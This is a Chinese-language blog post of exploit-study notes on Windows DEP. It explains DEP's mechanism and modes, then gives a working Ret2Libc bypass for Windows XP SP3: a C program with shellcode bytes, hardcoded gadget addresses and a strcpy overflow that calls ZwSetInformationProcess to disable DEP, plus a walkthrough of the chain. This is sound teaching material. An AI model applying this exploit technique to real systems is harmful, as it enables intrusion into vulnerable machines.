 ```yaml
---
title: 漏洞学习笔记-014-DEP的介绍
author: Misaka
date: 2020-11-19 12:42:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


Windows的DEP保护和简单的攻击方法

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-014-DEP的介绍/)

## DEP的介绍

> 溢出攻击的根源是未准确区分数据和代码，但是重新设计计算机结构是不太可能的事情，所以使用各种办法去减缓溢出攻击

### 原理

- 将数据所在的内存页标为不可执行，而程序成功溢出进入shellcode时，CPU将会抛出执行异常
- DEP分为软件DEP和硬件DEP，而软件DEP指的是SafeSEH，硬件DEP在AMD平台上称为No-Execute Page-Protection(NX)，Intel平台上称为Execute Disable Bit(XD)
- 操作系统通过设置内存页的NX和XD标记，来指明不能从此执行代码，PageTable中插入一个标记来标识此页是否运行执行指令，0表示允许，1表示不允许

### DEP的工作状态

- Optin：允许系统组件和服务使用DEP，其它程序将不予保护，而用户可以通过ACT工具标记程序使用DEP，这种保护可以被程序动态关闭，多用于普通用户操作系统
- Output：为排除列表外的程序启用DEP，多用于服务器操作系统
- AlwaysOn：对所有的程序应用DEP保护，不可被关闭，只有64位操作系统才使用此模式
- AlwaysOff：一般不用

### 编译选项

> `/NXCOMPAT`编译选项将在PE头中设置`IMAGE_DLLCHARACTERISTICS_ NX_COMPAT`标识，位于`IMAGE_OPTIONAL_HEADER`中的`DllCharacteristics`，此值为`0x100`时表示启用DEP

## 利用Ret2Libc挑战DEP

### 原理

- DEP保护时溢出失败的原因是DEP检测到代码在非可执行页上执行，如果让程序直接跳转到一个已存在的系统函数中，必然不会被拦截
- `Ret2Libc`是`Return-to-libc`的简写，如果将每条exploit都找到一条在系统lib中的替代品，那么此exp一定可以正确执行，但问题在于不是每条指令都不包含0，不断的跳转容易跳错地方
- 以下是三个可行的方法
  - 跳转到`ZwSetinfomationProcess`函数将DEP关闭，转入shellcode执行
  - 跳转到`VirtualProtect`将shellcode页面设为可执行，随后转入shellcode执行
  - 跳转到`VirtualAlloc`申请一段可执行的内存空间随后跳入shellcode执行

### 尝试ZwSetinfomationProcess关闭DEP

#### 前置内容

- 一个进程的DEP标识存在于`KPROCESS`结构的`_KEXECUTE_OPTION`上，可以通过API函数修改

> `_KEXECUTE_OPTION`结构

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- 当前进程DEP开启的时候，`ExecuteDisable`将会被设置为1
- 当前进程DEP关闭的时候，`ExecuteEnable`将会被设置为1
- `DisableThunkEmulation`为了兼容ATL被设置
- `Permanent`被置1后表示这些标志都不能再被修改
- 我们只要将`_KEXECUTE_OPTIONS`的值设置为`0x02(00000010)`就可以将`ExecuteEnable`置为1

#### shellcode原理

- `LdrpCheckNXCompatibility`函数为了检查DEP兼容性，满足以下条件之一将可以关闭DEP
  - DLL受SafeDisc版权保护系统保护
  - DLL中含有`.aspack`，`.pcle`，`.sforce`等字节的时候
  - DLL存在于注册表声明的不需启用DEP的模块的时候`HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### 代码

> 测试环境：系统：Windows XP SP3，DEP状态：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### 技术细节

- 需要对比al是否为1，所以第一步retn将会返回到`mov eax, 1`，`retn`的地址，此地址将会返回到修缮ebp的位置
- 因为在调用函数之前，会访问ebp中的值，但是它已经被刷写掉了，所以将修缮ebp，在此使用了`push esp`，`pop ebp`，`retn`三条指令将esp中的地址赋值给ebp，由于retn后面跟着数字，因此ebp将会加上这个数字，也就是`ebp+8`，此时ebp小于esp了，一旦调用子程序将会对栈区进行破坏，所以依旧得将ebp再加上一些，我在此选择将esp加上0x24，与之前的0x8凑成了0x30的栈空间，这样在返回的时候将会返回到语句`retn 0x24`
- `retn 0x24`语句在返回的时候将会返回到调用关闭DEP的函数`ZwSetInformationProcess`的地方，调用完毕后将会使用leave语句并retn，因此它将会返回到`jmp esp`的地址处
- 由`jmp esp`跳转到`\x24\xCD\x93\x7C`数据存放的地址处，而此垃圾数据将不会影响shellcode的执行
- 在垃圾数据的后方写入一个跳转即可，至此跳到shellcode真实执行之处
